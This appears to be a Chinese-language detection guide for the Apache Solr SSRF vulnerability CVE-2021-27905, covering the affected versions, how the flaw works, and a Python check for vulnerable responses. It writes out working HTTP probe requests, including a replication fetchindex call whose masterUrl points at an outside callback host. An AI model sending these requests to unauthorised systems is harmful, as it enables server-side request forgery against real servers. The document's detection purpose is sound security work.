

# Apache Solr <=8.8.1 SSRF漏洞（CVE-2021-27905）检测说明

## 漏洞简介

Apache Solr 8.8.1及之前版本的ReplicationHandler存在服务端请求伪造（SSRF）漏洞。攻击者可通过masterUrl/leaderUrl参数，诱使Solr服务端发起任意HTTP请求，进而访问内网资源、泄露数据，甚至可能导致远程代码执行。

## 影响范围

- 产品：Apache Solr
- 影响版本：<= 8.8.1
- CVE编号：CVE-2021-27905
- 危害等级：Critical

## 漏洞原理

Solr的/replication接口允许通过masterUrl参数指定远程主节点地址。由于未对该参数进行严格校验，攻击者可构造恶意URL，导致Solr服务端向任意地址发起请求，形成SSRF。

## 利用方式与攻击流程

1. 攻击者首先获取Solr实例的core名称。
2. 构造带有恶意masterUrl参数的/replication接口请求，诱使Solr访问外部或内网地址。
3. 若请求成功，响应体中返回`<str name="status">OK</str>`，表明SSRF成立。

## 探测原理与流程

### 探测请求的构造

```http
GET /solr/admin/cores?wt=json HTTP/1.1
Host: target.com
Accept-Language: en
Connection: close

GET /solr/{core}/replication/?command=fetchindex&masterUrl=https://interact.sh HTTP/1.1
Host: target.com
Accept-Language: en
Connection: close
```

- 第一步获取core名称，第二步利用masterUrl参数发起SSRF请求。

### 预期响应与交互

- 响应体需包含`<str name="status">OK</str>`，表明请求被Solr正常处理。

### 判定逻辑

```python
def is_vulnerable(response):
    if '<str name="status">OK</str>' in response.text:
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [安全客分析](https://www.anquanke.com/post/id/238201)
- [Ubuntu安全通报](https://ubuntu.com/security/CVE-2021-27905)
- [NVD官方漏洞库](https://nvd.nist.gov/vuln/detail/CVE-2021-27905)
- [NSFOCUS通告](https://nsfocusglobal.com/apache-solr-arbitrary-file-read-and-ssrf-vulnerability-threat-alert/)
- [Apache官方邮件列表](https://lists.apache.org/thread.html/r0ddc3a82bd7523b1453cb7a5e09eb5559517145425074a42eb326b10%40%3Cannounce.apache.org%3E) 